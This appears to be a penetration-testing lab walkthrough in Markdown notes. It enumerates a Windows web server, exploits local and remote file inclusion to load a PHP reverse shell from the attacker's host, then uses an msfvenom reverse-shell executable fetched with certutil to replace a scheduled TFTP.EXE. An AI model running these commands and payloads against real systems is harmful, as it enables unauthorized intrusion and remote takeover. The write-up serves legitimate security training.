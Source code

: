 ![](../attachment/8d30328dd432ea886ec7df91f44ae3ea.png)
Now using feroxbuster:
```
feroxbuster -u http://192.168.221.53:8080/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt' -B --auto-tune
```
![](../attachment/9c5e8266d20c0e8fb1a25858f1e4af55.png)
Visiting `/site`:
![](../attachment/ce0a2d3c6c37a9148e9ac9b4609640dc.png)
Checking for LFI vulnerability:
```
http://192.168.221.53:8080/site/index.php?page=../../../../../../../../../Windows/System32/Drivers/etc/hosts
```
![](../attachment/2693e2acfd736dd86d7fee15d090f9cf.png)

We also have RFI:
```
http://192.168.221.53:8080/site/index.php?page=http://192.168.45.236/index.php
```
![](../attachment/d8fc4f1c2dd42b6e81a941a89040f84e.png)Now we can get a php reverse shell from revshells.com:
![](../attachment/a23f3f5509426d8cde38c3e3a968b3ca.png)
Put it in a file *php-reverse-shell.php*
Now start a python server:
```
python3 -m uploadserver 80 
```
Visit this:
```
http://192.168.221.53:8080/site/index.php?page=http://192.168.45.236/php-reverse-shell.php
```

Now we get a shell:
![](../attachment/c99612b239aac2f61eb46e691248f753.png)

Got local.txt from rupert's desktop![](../attachment/c24bd4a53024f6de5eb19059d695b302.png)

Now we find a backup directory:
![](../attachment/31f35fe2a7e3d289d0a0d35ce4e78064.png)![](../attachment/e77b8b7cd985a1e7cd04901487641af9.png)

It TFTP.exe runs every 5 minutes so we can replace it with a reverse shell.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=445 -f exe -o rev.exe
```
Create a reverse shell.

Now we can transfer to the target machine:
```
python3 -m uploadserver 80
```
```
certutil -urlcache -f http://192.168.45.228:/rev.exe TFTP.EXE
```

Now we get a shell in 5 minutes:![](../attachment/b5dc933e1ded2c297b862e816a190188.png)